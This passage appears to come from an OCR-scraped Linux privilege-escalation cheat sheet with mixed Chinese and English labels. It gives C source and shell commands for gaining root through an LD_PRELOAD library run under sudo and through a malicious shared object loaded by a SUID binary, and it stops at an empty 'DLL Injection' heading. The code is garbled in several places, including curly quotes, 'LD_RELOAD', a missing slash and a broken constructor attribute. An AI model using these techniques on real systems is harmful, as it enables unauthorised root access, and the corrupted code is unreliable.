 类型: Injection

方法:

```c
 #include <stdio.h>
 #include <sys/types.h>
 #include <stdlib.h>
 void _init() {
 unsetenv(“LD_PRELOAD”);
     setgid(0);
     setuid(0);
     system(“/bin/bash”);
 }
```

1.  `gcc -fPIC -shared -o /tmp/ldreload.so ldreload.c -nostartfiles`
2.  `sudo LD_RELOAD=tmp/ldreload.so apache2`

### **Abusing File Permission via SUID Binaries – .so injection)**

域：No

Local Admin: Yes

操作系统: Linux

类型: Injection

方法:

1.  `mkdir /home/user/.config`

```c
 #include <stdio.h>
 
 #include <stdlib.h>
 
 static void inject() _attribute _((constructor));
 
 void inject() {
 
  system(“cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p”);
 
 }
```

1.  `gcc -shared -o /home/user/.config/libcalc.so -fPIC/home/user/.config/libcalc.c`
2.  `/usr/local/bin/suid-so`

`id`

### **DLL Injection**

域：No

Local Admin: Yes
